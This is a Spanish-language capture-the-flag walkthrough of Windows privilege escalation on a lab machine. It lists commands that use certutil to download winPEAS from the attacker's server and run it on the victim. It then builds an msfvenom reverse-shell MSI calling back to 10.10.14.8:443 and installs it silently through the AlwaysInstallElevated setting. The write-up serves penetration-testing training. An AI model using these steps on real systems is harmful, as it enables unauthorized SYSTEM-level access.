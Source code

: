 ```bash
cd c:\
cd PROGRA~1
dir
cd ..
cd PROGRA~2
dir
```

Investigamos un poco pero no vemos nada muy interesante. Decidimos lanzarle un WinPEAS

#### Analisis de vulnerabilidad Privesc con WINPEAS {-}

```bash
cd c:\Windows\Temp
mkdir EEEE
cd EEEE
```

Descargamos el 
```bash
 winpeasx64.exe 
```
 desde [https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe).

```bash
cd content
cp /home/s4vitar/Descargas/firefox/winPEASx64.exe .
python3 -m http.server 80
```

Lo descargamos desde la maquina victima y lo lanzamos.

```bash
certutil.exe -f -urlcache -split http://10.10.14.8/winPEASexe.exe winPEAS.exe
winPEAS.exe
```

Vemos algo interressante en Checking AlwaysInstallElevated

```{r, echo = FALSE, fig.cap="privesc hklm hkcu vuln", out.width="90%"}
knitr::include_graphics("images/love-hklm-hkcu.png")
```


![love-hklm-hkcu](/assets/images/love-hklm-hkcu.png) 
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f msi -o reverse.msi
    ```

1. lo enviamos a la maquina victima con el servidor http de python
1. nos ponemos en escucha por el puerto 443
1. lo ejecutamos desde la maquina victima

    ```bash
    msiexec /quiet /qn /i reverse.msi
    ```

Ya estamos a dentro con el usuario nt authority\system y podemos ver la flag.